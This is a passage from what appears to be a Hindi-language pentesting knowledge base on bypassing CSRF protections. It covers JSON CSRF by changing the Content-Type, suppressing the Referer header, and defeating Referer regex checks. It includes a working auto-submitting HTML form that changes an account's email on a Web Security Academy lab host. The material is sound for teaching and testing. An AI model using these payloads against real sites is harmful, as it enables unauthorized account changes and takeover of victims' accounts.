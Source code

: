 जब POST अनुरोध के माध्यम से JSON डेटा भेजने का प्रयास किया जाता है, तो HTML फॉर्म में `Content-Type: application/json` का उपयोग सीधे संभव नहीं है। इसी तरह, इस सामग्री प्रकार को भेजने के लिए `XMLHttpRequest` का उपयोग करने से एक प्रीफ्लाइट अनुरोध शुरू होता है। फिर भी, इस सीमा को बायपास करने और यह जांचने के लिए रणनीतियाँ हैं कि क्या सर्वर सामग्री प्रकार की परवाह किए बिना JSON डेटा को संसाधित करता है:

1. **वैकल्पिक सामग्री प्रकार का उपयोग करें**: फॉर्म में `enctype="text/plain"` सेट करके `Content-Type: text/plain` या `Content-Type: application/x-www-form-urlencoded` का उपयोग करें। यह दृष्टिकोण परीक्षण करता है कि क्या बैकएंड डेटा का उपयोग करता है चाहे सामग्री प्रकार कुछ भी हो।
2. **सामग्री प्रकार को संशोधित करें**: प्रीफ्लाइट अनुरोध से बचने के लिए जबकि यह सुनिश्चित करते हुए कि सर्वर सामग्री को JSON के रूप में पहचानता है, आप डेटा को `Content-Type: text/plain; application/json` के साथ भेज सकते हैं। यह प्रीफ्लाइट अनुरोध को ट्रिगर नहीं करता है लेकिन यदि सर्वर को `application/json` स्वीकार करने के लिए कॉन्फ़िगर किया गया है तो इसे सही ढंग से संसाधित किया जा सकता है।
3. **SWF फ्लैश फ़ाइल का उपयोग**: एक कम सामान्य लेकिन संभव विधि में ऐसे प्रतिबंधों को बायपास करने के लिए SWF फ्लैश फ़ाइल का उपयोग करना शामिल है। इस तकनीक की गहन समझ के लिए, [इस पोस्ट](https://anonymousyogi.medium.com/json-csrf-csrf-that-none-talks-about-c2bf9a480937) को देखें।

### रेफरर / मूल जांच बायपास

**रेफरर हेडर से बचें**

ऐप्लिकेशन केवल तब 'Referer' हेडर को मान्य कर सकते हैं जब यह मौजूद हो। इस हेडर को भेजने से रोकने के लिए, निम्नलिखित HTML मेटा टैग का उपयोग किया जा सकता है:
```xml
<meta name="referrer" content="never">
```
यह सुनिश्चित करता है कि 'Referer' हेडर को छोड़ दिया गया है, जिससे कुछ अनुप्रयोगों में मान्यता जांचों को बायपास किया जा सकता है।

**Regexp बायपास**

{% content-ref url="ssrf-server-side-request-forgery/url-format-bypass.md" %}
[url-format-bypass.md](ssrf-server-side-request-forgery/url-format-bypass.md)
{% endcontent-ref %}

Referrer द्वारा भेजे जाने वाले पैरामीटर के अंदर URL में सर्वर का डोमेन नाम सेट करने के लिए आप कर सकते हैं:
```html
<html>
<!-- Referrer policy needed to send the qury parameter in the referrer -->
<head><meta name="referrer" content="unsafe-url"></head>
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://ac651f671e92bddac04a2b2e008f0069.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="submit" value="Submit request" />
</form>
<script>
// You need to set this or the domain won't appear in the query of the referer header
history.pushState("", "", "?ac651f671e92bddac04a2b2e008f0069.web-security-academy.net")
document.forms[0].submit();
</script>
</body>
</html>
```
### **HEAD विधि बायपास**
